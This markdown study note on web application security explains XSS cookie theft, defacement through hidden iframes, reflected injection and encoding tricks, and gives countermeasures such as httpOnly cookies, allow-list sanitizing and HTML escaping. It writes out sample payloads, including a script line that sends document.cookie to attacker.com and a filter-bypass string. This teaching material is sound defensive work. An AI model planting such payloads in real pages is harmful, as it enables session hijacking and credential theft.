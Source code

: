 ### Cookie Theft
- Javascript enforces same origin policy
  - Script from one domain cannot access cookies of another domain
- 'document.cookie' holds the cookie of the originating web server
  - You can read & write this property if you embed the code directly in HTML document
  - <script>document.write(document.cookie);</script>
  - But that is not useful to the attacker as they will see their own cookie
- This will try to load an image from the specific url plus the cookie
  - document.write('<img src="http://www.attacker.com/' + document.cookie + '">')
  - This url doesn't exist, so the browser displays nothing
    - But the attacker can review their web server's access log files
    - To see the victim's cookie
  - The log files on 'www.attacker.com' will read like this
    - GET http://www.attacker.com/_app_session=836c1c25278e5b321d6bea4f19cb57e2
- These attackes can be mitigated by adding the 'httpOnly' flag to cookies
  - So that 'document.cookie' may not be read by javascript
  - Though the cookies will still be visible using Ajax

### Defacement
- With web page defacement, an attacker can do a lot of things. For example,
  - Present false information or lure the victim on the attacker's website
  - To steal cookie, login credentials, or other sensitive data
- Most popular way is to include code from external sources by iframes
  - <iframe src="http://58.xx.xxx.xxx" style="display:none"></iframe>
  - This loads arbitrary html and/or javascript from external source
  - And embeds it as part of the site
- A more specialized attack could overlap the entire website
  - Or display a login form which looks the same as the site's original
    - But transmits the username & password to the attacker's site
  - Or it could use CSS and/or javascript to hide a legitimate link
    - And display another one at its place which redirects to a fake website
- Reflected injection attacks are those where the payload is not stored
  - It's not presented to the victim, but it's included in the url
  - Especially search forms fail to escape the search string
  - `http://www.news.com/?zipcode=1--><script src=http://www.attacker.com></script><!--`

### Obfuscation and Encoding Injection
- Network traffic is mostly based on the limited western alphabet
- So new char encodings like unicode emerged to transmit chars in other languages
  - But this is also a threat to web apps
  - As malicious code can be hidden in different encodings
  - That web browser might be able to process but web app might not
  - <img src=&#106;&#97;&#118; ...>
- `sanitize()` method does a good job to fend off encoding attacks

### Countermeasures
- It is important to filter malicious input and to escape the output of the web app
- Especially for XSS, it is important to do permitted input filtering (over restricted)
  - `sanitize(user_input, tags: allowed_tags, attributes: allowed_attributes)`
- Restricted list are never complete
  - Imagine a restricted list deletes 'script' from user input
  - Now the attacker injects `<scrscriptipt>`, so after filter `<script>` remains
- Use `html_escape()` to replace html input chars &, ", <, >
  - By their uninterpreted representations in html &amp;, &quot;, &lt;, &gt;
